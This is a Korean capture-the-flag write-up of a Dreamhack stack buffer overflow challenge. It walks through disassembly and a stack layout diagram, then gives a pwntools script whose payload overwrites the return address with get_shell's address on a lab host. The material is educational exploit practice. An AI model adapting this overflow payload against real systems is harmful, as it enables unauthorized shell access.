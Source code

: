 `0x080486c4 <+72>:    lea    eax,[ebp-0x98]`: `eax`에 `stack_buf`의 주소를 저장
- `[ebp-0x98]`: `stack_buf`의 주소

`0x080486cb <+79>:    call   0x80484f0 <sprintf@plt>`: `heap_buf`의 내용을 `stack_buf`에 복사
```
0x080486d0 <+84>:    add    esp,0x8
0x080486d3 <+87>:    lea    eax,[ebp-0x98]
0x080486d9 <+93>:    push   eax
0x080486da <+94>:    push   0x8048791
0x080486df <+99>:    call   0x8048460 <printf@plt>

-- 스택에 쌓인 모습 --

높은 메모리 주소
+---------------+ <-- printf 함수 호출 시점의 esp
|      ...      |     (Stack Pointer: 스택 포인터)
+---------------+
|      ret      | <-- printf 함수 호출 후 반환될 주소
|    4 byte     |     (Return addr)
+---------------+
|      sfp      | <-- 이전 ebp의 값을 가짐
|    4 byte     |     (Saved EBP: 이전 베이스 포인터)
+---------------+
|   stack_buf   |
|    152 byte   |
+---------------+ <-- buf 배열의 시작 주소 (ebp - 0x98)
낮은 메모리 주소
```
`"x/i get_shell" or "disass get_shell" or "info func"`등을 입력

`0x8048669 <get_shell>:       push   ebp`

`ret`에 들어갈 `get_shell`함수의 주소 확인

## 3. 문제 풀이 코드

### Stack BOF를 주요로 이용한 코드

- 코드 수정 전
    ```
    from pwn import *

    # buf + sfp + get_shell()
    payload = b'\x90'*152 + b'\x90'*4 + b'\x69\x86\x04\x08' 

    r = remote('host3.dreamhack.games', 18968)

    r.send(payload)

    r.interactive()
    ```
    `\x90*152`: 버퍼에 아무 문자로 다 채움
